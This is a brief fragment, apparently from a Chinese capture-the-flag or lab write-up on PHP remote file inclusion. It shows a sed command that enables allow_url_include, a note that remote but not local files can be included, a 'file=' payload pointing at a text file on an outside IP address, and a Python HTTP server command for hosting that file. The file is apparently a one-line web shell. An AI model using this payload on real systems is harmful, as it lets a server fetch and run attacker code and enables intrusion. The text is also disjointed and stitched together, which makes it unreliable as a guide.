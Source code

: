 `s/allow_url_include = Off/allow_url_include = On/g`
可以包含远程文件，本地不行

``` www
file=http://8.140.204.97:8000/yjh.txt
```

python3 -m http.server 8000